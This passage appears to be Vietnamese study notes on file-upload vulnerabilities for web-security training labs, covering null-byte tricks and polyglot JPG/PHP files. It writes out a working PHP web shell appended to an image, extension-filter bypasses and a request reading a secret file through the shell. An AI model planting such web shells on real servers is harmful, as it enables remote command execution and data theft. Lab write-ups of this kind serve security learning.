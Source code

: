     ○ Hệ thống cũ (PHP < 5.3.4)

    ○ Một số hàm C/C++ không escape null byte

Ứng dụng dùng thư viện xử lý tệp lỗi thời

## Polyglot file & ExifTool

- Polyglot file là 1 file duy nhất nhưng hợp lệ với nhiều định dạng cùng lúc:

  • Có thể được xử lý bởi nhiều trình phân tích định dạng khác nhau

Hoặc có thể chạy như nhiều loại mã (Vừa là JPG, vừa là PHP)

**Cách làm chi tiết (polyglot shell)**

📥 Bước 1: Tạo file ảnh + PHP shell

```bash
cat image.jpg > shell.php
echo "<?php system(\$_GET['x']); ?>" >> shell.php
```

  ✅ File shell.php lúc này:

    ○ Là ảnh hợp lệ (trình xem ảnh vẫn mở được)

    ○ Có code PHP ở cuối để thực thi lệnh

📤 Bước 2: Upload file shell.php

  • Nếu bị chặn extension .php, bạn đổi lại thành shell.php.jpg

  • Hoặc tìm cách bypass bằng .htaccess nếu lab yêu cầu (lab này có thể không cần)


🔎 Bước 3: Truy cập shell

Sau khi upload thành công, truy cập:

```bash
/files/avatars/shell.php?x=cat%20/home/carlos/secret
```

Hoặc nếu tên bạn đổi:

```bash
/files/avatars/shell.php.jpg?x=...
```

Nếu ```.php.jpg``` được xử lý như .php (có ```.htaccess``` hoặc config server cho phép) thì shell hoạt động.


# Lab File upload vulnerabilites:

## Lab: Remote code execution via web shell upload

**END goals**: upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.
